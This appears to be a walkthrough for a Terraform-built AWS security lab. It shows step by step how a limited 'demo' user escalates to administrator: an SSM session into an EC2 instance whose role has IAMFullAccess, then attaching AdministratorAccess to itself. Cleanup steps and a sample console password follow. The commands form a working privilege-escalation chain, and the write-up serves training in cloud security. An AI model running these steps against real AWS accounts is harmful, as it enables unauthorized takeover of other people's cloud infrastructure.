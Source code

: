 # Solutions / Walk through

Lets start off by viewing what permissions are attached to our user.

Run the following commands while authenticated as demo.

```sh
aws iam list-attached-user-policies --user-name demo

aws iam list-user-policies --user-name demo
```

The permission AmazonEC2FullAccess grants us full access to aws [EC2](https://console.aws.amazon.com/ec2/v2/home), lets look at the other permissions we have.

We have already seen what ***consolePassword*** does, lets look what ***ec2-permission*** does.

```sh
aws iam get-user-policy --user-name demo --policy-name ec2-permission
```

```json
{
    "Action": [
        "iam:PassRole",
        "iam:AttachRolePolicy",
        "ssm:StartSession"
    ],
    "Effect": "Allow",
    "Resource": "*"
}
```

The iam permissions (PassRole & AttachRolePolicy) allow us to grant roles to services and grants permission to attach a managed policy to the specified IAM role.

Lets look at **ssm:StartSession** this lets us initiate a connection to specified targets.

Lets look to see what EC2 instances we can connect to.

```sh
aws ec2 describe-instances
```

We can see from the output that there is an already existing server.

```sh
aws ec2 describe-instances | jq -r '.Reservations[0].Instances[0].InstanceId'
# i-58008eeeca3974041

aws ec2 describe-instances | jq -r '.Reservations[0].Instances[0].IamInstanceProfile.Arn'
# arn:aws:iam::0123456789:instance-profile/AdministrativeRoleProfile
```

Lets look into that instance profile **AdministrativeRoleProfile**.

```sh
aws iam list-instance-profiles

aws iam list-instance-profiles | jq -r '.InstanceProfiles[0].Roles[0].RoleName'
# EC2-demo-role

aws iam get-role --role-name EC2-demo-role

aws iam list-attached-role-policies --role-name EC2-demo-role
```

```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "AmazonEC2RoleforSSM",
            "PolicyArn": "arn:aws:iam::aws:policy/service-role/AmazonEC2RoleforSSM"
        },
        {
            "PolicyName": "IAMFullAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/IAMFullAccess"
        },
        {
            "PolicyName": "AmazonSSMManagedInstanceCore",
            "PolicyArn": "arn:aws:iam::aws:policy/AmazonSSMManagedInstanceCore"
        }
    ]
}
```

Here we see SSM again and iam full access 😋

Lets connect to the instance

```sh
aws ec2 describe-instances | jq -r '.Reservations[0].Instances[0].InstanceId'
# i-58008eeeca3974041

aws ssm start-session --target i-58008eeeca3974041
```

We got a shell, in it we will have all the permissions that role has, full iam. Lets grant our own user admin.

```sh
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name demo
```

Our user now has full iam permissions, lets give ourself administrative permissions.

```sh
aws iam list-attached-user-policies --user-name demo
```

The demo user now has administrator permissions in this aws account. ◻

## Cleanup

Lets remove the policies we attached and then let terraform do the rest.

```sh
aws iam detach-user-policy --user-name demo --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## AWS Console

All of the following can be done in the web console as well.

Run the following command.

```sh
aws iam create-login-profile --user-name demo --password 'My!User1Login8P@ssword'
```

Navigate to [console.aws.amazon.com](console.aws.amazon.com) choose IAM login, account id is in the terraform output [*account_id*], username is **demo** and password is **My!User1Login8P@ssword**
